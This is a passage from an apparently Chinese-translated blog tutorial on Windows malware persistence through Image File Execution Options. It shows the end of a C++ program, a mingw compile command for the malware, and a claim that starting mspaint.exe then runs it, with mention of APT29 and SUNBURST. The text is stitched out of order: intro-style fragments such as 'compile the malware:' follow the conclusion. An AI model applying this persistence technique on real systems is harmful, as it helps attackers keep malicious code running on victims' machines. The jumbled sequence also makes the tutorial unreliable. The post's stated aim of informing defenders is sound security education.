  RegCloseKey(hkey);
  }

  return 0;

```

我们来编译它：

```bash
x86_64-w64-mingw32-g++ -O2 pers2.cpp -o pers2.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}

下面展示它在实际运行中的样子：

{width="80%"}

{width="80%"}

{width="80%"}

{width="80%"}

{width="80%"}

当 Microsoft 画图进程（`mspaint.exe`）被启动时，这会导致恶意软件被执行。

完美！

在野外，这个持久化技巧被 APT29 组织以及 SUNBURST 等软件使用。

我希望这篇文章能让蓝队成员了解这个有趣的技巧，并为红队成员的武器库增添一件武器。

这篇文章是我自己对一个有趣的恶意软件持久化技巧的研究结果：通过映像文件执行选项（Image File Execution Options）实现持久化。

那么我们在这里做了什么？

编译恶意软件：

因此当它启动并关闭时，什么也不会发生：
